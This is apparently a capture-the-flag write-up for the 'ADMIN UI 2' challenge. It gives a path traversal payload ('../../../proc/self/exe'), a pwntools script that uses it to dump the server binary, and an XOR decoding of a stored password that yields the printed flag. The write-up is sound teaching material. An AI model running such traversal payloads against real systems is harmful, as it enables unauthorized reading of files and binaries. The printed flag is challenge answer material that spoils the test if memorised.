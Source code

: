 [../](../../)

# ADMIN UI 2

## pwn-re

> That first flag was a dud, but I think using a similar trick to get the full binary file might be needed here. There is a least one password in there somewhere. Maybe reversing this will give you access to the authenticated area, then you can turn up the heat… literally.

We need to find a way to dump the binary for analysis. With the path traversal bug, we can print out the binary by reading the following path:

	../../../proc/self/exe

It will print the binary data in the console, so it works. With the following script, we can save the binary in a file:

```python
from pwn import *


r = remote('mngmnt-iface.ctfcompetition.com', 1337)

r.recvuntil('Quit\n')
r.sendline('2')
r.recvuntil('?\n')
r.sendline('../../../proc/self/exe')
binary = r.recvuntil('Quit\n')

with open('admin-ui', 'wb') as file:
	file.write(binary)
```

Now we can analyze the binary in `Ghidra` and see, how the authentication for the `Service access` option works. First, it expects a password, that is stored in the `flag` we previously read out. Then it expects another password that is generated from data, that are stored in the binary:

	84,93,81,BC,93,B0,A8,98,97,A6,B4,94,B0,A8,B5,83,BD,98,85,A2,B3,B3,A2,B5,98,B3,AF,F3,A9,98,F6,98,AC,F8,BA

For our input, each character is `XOR`ed with 199 and the result is then compared to that data array, so in order to get the password, we just need to `XOR` each byte of the data array with 199 to get the flag.

flag: `CTF{Two_PasSworDz_Better_th4n_1_k?}`